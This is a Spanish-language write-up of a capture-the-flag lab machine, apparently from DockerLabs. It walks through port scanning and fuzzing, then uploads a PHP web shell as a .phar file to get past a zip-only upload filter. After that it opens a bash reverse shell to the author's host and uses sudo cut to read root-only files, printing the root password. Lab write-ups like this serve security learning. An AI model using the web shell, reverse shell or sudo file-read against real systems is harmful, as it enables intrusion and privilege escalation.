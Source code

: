 Fecha: 13/08/2024

Comienzo haciendo nmap, veo solo un apache no vulnerable en el 80.

```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

Hago fuzzing y encuentro varias páginas: 

```
feroxbuster -u http://172.17.0.2 -x php -x html -x txt -x js -x py -w /usr/share/wordlists/directory-list-2.3-medium.txt -o fuzzing --threads 300 
```

![](Imágenes/Pasted%20image%2020240813180751.png)
En http://172.17.0.2/machine.php encuentro que puedo subir archivos. Por tanto, intentaré un #LFI (Local File Inclusion). Pruebo con un txt y veo que solo me deja subir .zips. Interceptaré la petición con burpsuite para engañarle y subir algún archivo .php. Por lo que he visto en otros writeups, esto se llama `Arbitrary File Upload`


```php
# Creo un php con el que podré ejecutar comandos remotas: 
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

![](Imágenes/Pasted%20image%2020240813182943.png)

En un principio esta es la petición. Voy a hacer que la máquina se piense que es un zip. Para ello, veo que hay distintas terminaciones de los archivos php: **PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

Al parecer, phar es un conjunto de phps comprimidos, por lo que cuela y se sube. Ahora, podré ver ese archivo en http://172.17.0.2/uploads/script.phar y escribir los comandos que quiera:

![](Imágenes/Pasted%20image%2020240813184507.png)

![](Imágenes/Pasted%20image%2020240813184615.png)


Creo una shell que captaré desde mi máquina: 

```
# En mi máquina (192.168.1.63):

nc -lnvp 443

# En la shell de php: 

bash -c "bash -i >&/dev/tcp/192.168.1.63/443 0>&1"

```

Y ya estoy dentro:

![](Imágenes/Pasted%20image%2020240813185112.png)

Tanto con cut como grep puedo leer archivos como si fuera superusuario. 

![](Imágenes/Pasted%20image%2020240813185352.png)

Voy mirando directorios, y encuentro que en /opt/ hay un archivo: 

![](Imágenes/Pasted%20image%2020240813185538.png)

Uso https://gtfobins.github.io/gtfobins/cut/#sudo para leer el contenido: 

```
LFILE=/opt/nota.txt
sudo cut -d "" -f1 "$LFILE"

# Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.

LFILE=/root/clave.txt
sudo cut -d "" -f1 "$LFILE"

# dockerlabsmolamogollon123

```

![](Imágenes/Pasted%20image%2020240813185747.png)
